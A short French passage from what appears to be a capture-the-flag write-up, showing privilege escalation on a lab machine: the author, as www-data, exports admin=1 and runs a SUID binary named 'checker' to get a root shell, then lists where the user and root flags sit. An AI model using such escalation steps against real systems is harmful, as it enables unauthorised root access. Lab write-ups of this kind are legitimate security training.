 Je vais donc ajouter la variable admin=1 (donc vrai)
```
www-data@blog:/usr/sbin$ export admin=1
```
Puis j'executer le fichier **checker**
```
www-data@blog:/usr/sbin$ ./checker
root@blog:/usr/sbin#
```
Me voila root !

Le flag user est ici : **/media/usb**
Le flag root est ici : **/root**
